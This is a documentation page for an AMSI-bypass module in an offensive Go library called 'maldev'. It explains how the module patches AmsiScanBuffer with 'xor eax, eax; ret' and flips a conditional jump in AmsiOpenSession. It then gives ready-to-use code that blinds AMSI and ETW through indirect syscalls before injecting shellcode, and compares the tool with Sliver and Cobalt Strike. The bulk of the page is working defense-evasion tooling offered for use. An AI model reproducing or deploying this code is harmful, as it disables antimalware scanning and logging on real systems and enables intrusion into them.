

# AMSI Bypass

> **MITRE ATT&CK:** T1562.001 -- Impair Defenses: Disable or Modify Tools | **D3FEND:** D3-AIPA -- Application Integrity Protection Analysis | **Detection:** Medium

## For Beginners

When you enter a building, there is a security scanner at the door that checks your bag for contraband. Everything you carry goes through the scanner. If something looks dangerous, the scanner flags it and security stops you. But what if you could tape over the scanner's lens? The scanner still runs, it still looks like it is working, but it cannot actually see anything. Everything passes through as "clean."

AMSI (Antimalware Scan Interface) is Windows' built-in content scanner. When PowerShell runs a script, when .NET loads an assembly, or when any AMSI-aware application processes content, it calls `AmsiScanBuffer` in `amsi.dll` to check whether the content is malicious. The function returns a result code: clean, suspicious, or malicious. Security products (Windows Defender, third-party AV) register with AMSI to receive these scans.

The AMSI bypass overwrites the first few bytes of `AmsiScanBuffer` in memory with `xor eax, eax; ret` (machine code: `31 C0 C3`). This makes the function immediately return zero (S_OK / AMSI_RESULT_CLEAN) without doing any scanning. Every subsequent AMSI check in the process reports "clean." A second patch targets `AmsiOpenSession`, flipping a conditional jump to prevent session initialization entirely.

## How It Works



**Two patches:**

1. **PatchScanBuffer** -- Overwrites the entry point of `AmsiScanBuffer` with `31 C0 C3` (`xor eax, eax; ret`). The function returns S_OK (0) immediately, meaning AMSI_RESULT_CLEAN.
2. **PatchOpenSession** -- Scans the first 1024 bytes of `AmsiOpenSession` for a `JZ` (0x74) instruction and flips it to `JNZ` (0x75). This causes session initialization to fail, preventing AMSI from operating at all.

Both patches use `VirtualProtect` (or `NtProtectVirtualMemory` via Caller) to make the code page writable, apply the patch, then restore original protection.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion/amsi"
)

func main() {
    // Patch AmsiScanBuffer only (most common).
    if err := amsi.PatchScanBuffer(nil); err != nil {
        log.Fatal(err)
    }

    // Or patch both AmsiScanBuffer and AmsiOpenSession.
    if err := amsi.PatchAll(nil); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // Route memory protection changes through indirect syscalls.
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHellsGate(), wsyscall.NewHalosGate()))

    // Blind AMSI + ETW before injection.
    techniques := []evasion.Technique{
        amsi.ScanBufferPatch(),
        amsi.OpenSessionPatch(),
        etw.All(),
    }
    if errs := evasion.ApplyAll(techniques, caller); errs != nil {
        for name, err := range errs {
            log.Printf("%s: %v", name, err)
        }
    }

    // Now inject -- AMSI won't scan, ETW won't log.
    if err := inject.ThreadPoolExec(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- the patch itself requires `VirtualProtect` on amsi.dll pages, which some EDRs monitor. |
| Effectiveness | High -- completely disables AMSI scanning for the lifetime of the process. |
| Scope | Process-wide. All AMSI consumers in the same process are blinded. |
| Persistence | Non-persistent -- only affects the current process. AMSI is intact in new processes. |
| Detection vectors | Memory integrity checks comparing loaded amsi.dll against disk. ETW events for `VirtualProtect` calls targeting amsi.dll. Signature matching on the `31 C0 C3` byte sequence. |
| Graceful failure | Returns nil if amsi.dll is not loaded (nothing to patch). Safe to call unconditionally. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| ScanBuffer patch | `31 C0 C3` | Similar | BOF-based | `31 C0 C3` |
| OpenSession patch | JZ→JNZ flip | No | No | No |
| Caller-routed VirtualProtect | Yes | No | N/A | No |
| Technique interface | `evasion.Technique` | Built-in | Profile | Function |
| PatchAll convenience | Yes | No | No | No |
| Graceful nil on unloaded DLL | Yes | Varies | N/A | No |

## API Reference

```go
// PatchScanBuffer patches AmsiScanBuffer to always return AMSI_RESULT_CLEAN.
// Returns nil if amsi.dll is not loaded.
func PatchScanBuffer(caller *wsyscall.Caller) error

// PatchOpenSession flips JZ→JNZ in AmsiOpenSession to prevent initialization.
// Returns nil if amsi.dll is not loaded.
func PatchOpenSession(caller *wsyscall.Caller) error

// PatchAll applies both patches. Returns first error.
func PatchAll(caller *wsyscall.Caller) error

// Technique constructors for use with evasion.ApplyAll:
func ScanBufferPatch() evasion.Technique
func OpenSessionPatch() evasion.Technique
func All() evasion.Technique
```
